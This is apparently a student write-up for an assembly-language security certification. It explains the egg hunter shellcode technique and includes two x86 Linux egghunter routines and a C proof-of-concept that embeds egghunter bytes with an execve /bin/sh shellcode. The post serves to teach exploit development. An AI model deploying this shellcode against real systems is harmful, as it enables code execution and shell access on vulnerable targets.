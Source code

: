 # Assignment #3: Egg Hunter shellcode

- Study about the Egg Hunter shellcode

- Create a working demo of the Egghunter

- Should be configurable for different payloads


---------------------------------------------------


## What is an EggHunter?

It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice. The technique is based on the system calls, given they can "*validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*", using them to check if the memory is readable and later if the tag has been reached.


## EggHunter study
The two egghunters studied use the same syscall: access.

![Screenshot](images/1.png)


### Egghunter 1

From the code in page 8 it is possible to extract the first egghunter, with a size of 39 bytes and an estimated speed in the paper of 8 seconds:

```assembly
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx; $edx = Size 4096 bytes
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

This code uses a "page size" of 4096 bytes (0x0fff + 0x0001 = 0x1000 or 4096) which is set in EDX register, EBX register contains the address to validate (current address of EDX plus 4) and EAX contains the value needed for the access system call (0x21). After the system call, EAX is compared with 0xf2 (which represents EFAULT), if the comparison is not met the address value is checked agaisnt the "egg" value twice, contained in EBX register (given the registers value is stored before the system call and restored before checking the address against the "egg" using *pusha* and *popa*).

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](images/2.png)




### Egghunter 2

From the code in page 11 it is possible to extract the second egghunter, with a size of 35 bytes (so it is smaller than the previous one) and an estimated speed in the paper of 7,5 seconds (so it is faster):

```assembly
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```
In this second shellcode the great difference is the "egg" comparison, because an IA32 native instruction named *scasd* is used in this case, allowing a small comparison.

It is tested with the execve shellcode as payload:

![Screenshot](images/3.png)



### POC code

This is the code of *shellcode.c* for this exercise:


```cpp
#include <stdio.h>
#include <string.h>
#define egg "\x90\x50\x90\x50"

unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```



## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879



---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433
